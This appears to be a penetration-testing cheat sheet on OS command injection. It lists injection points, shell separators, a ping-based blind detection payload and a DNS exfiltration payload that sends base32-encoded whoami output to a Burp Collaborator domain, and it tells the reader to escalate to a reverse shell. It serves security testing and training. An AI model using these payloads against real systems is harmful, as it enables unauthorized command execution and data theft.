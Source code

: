 # Cmd Injection

## Where Would You Find Command Injection

* In the following places:
* Text boxes that take in input
* Hidden URLs that take input
* E.g. `/execute/command-name`
* Or through queries e.g. `/location?parameter=command`
* When using URLs, remember to URL encode the characters that aren’t accepted
* Hidden ports:
* Some frameworks open debug ports that take in arbitrary commands

### Overview

* Use command line symbols within the input to alter the executed command
* Pay close attention to functions within an application that tend to be performed by an OS command
* Two forms exist, blind command injection --> you do not see the returned output, and non-blind cmd injection --> the system command output gets returned back to you
* Ensure you use the proper system commands per the OS

```
cat vs type 
ping -c vs ping -n #ping -n causes an infinte ping loop in linux
ls vs dir
```

* Try to start with reading a world readable file&#x20;

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Non-Blind CMD Inj.

* At the most basic level:
* Use command line symbols within the input to alter the executed command
* Once you have identified a potential injection point, use command line symbols within the input to alter the executed command&#x20;

```
; | || & && > >>
```

<figure><img src="../.gitbook/assets/image (2) (1) (4).png" alt=""><figcaption></figcaption></figure>

* Once you have exploited non-blind cmd injection, escalate to a reverse shell.

### Blind CMD Injection

#### Identification

* ICMP and DNS are useful to determine blind cmd injection&#x20;

```
google.com; ping -c11 127.0.0.1 #server will hang for roughly 10 seconds
```

* Can also try to ping yourself, however many corporate environments have firewalls in place to stop this, so doesn't always mean blind cmd injection isn't taking place&#x20;
* Use `tcpdump` to capture the `icmp` echo requests.

<figure><img src="../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

* This proves blind cmd injection, escalate to reverse shell

### Burp Collaborator

* Launch Burp, and choose:

![](<../.gitbook/assets/image (1) (2).png>)

```
Burp --> Burp Collaborator Client
Press --> "Copy to Clipboard" #to copy a randomly generated domain name
Execute your cmd injection
```

* Press `Poll Now` to see if the request came through&#x20;

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* If the above worked, move down to Data Exfil section

### **Data Exfil via DNS and Burp Collaborator**&#x20;

* Once you have your Burp Collaborator Domain, try your command injection&#x20;

```
google.com; a=$(whoami|base32|tr -d =); nslookup $a.COLLAB_DOMAIN_NAME.com
```

* Press Poll now and you should have something returned like this:

```
O53XOLLEMF2GCCQ.323lijijf90304jklksjru43k23.oastify.com
```

* Then type the following in your local terminal&#x20;

```
echo -n O53XOLLEMF2GCCQ | wc -c
```

* If this fails as `Invalid Base32` add 1, or 2 equal signs at the end for padding

```
echo -n O53XOLLEMF2GCCQ= | base32 -d
#output:
www-data
```
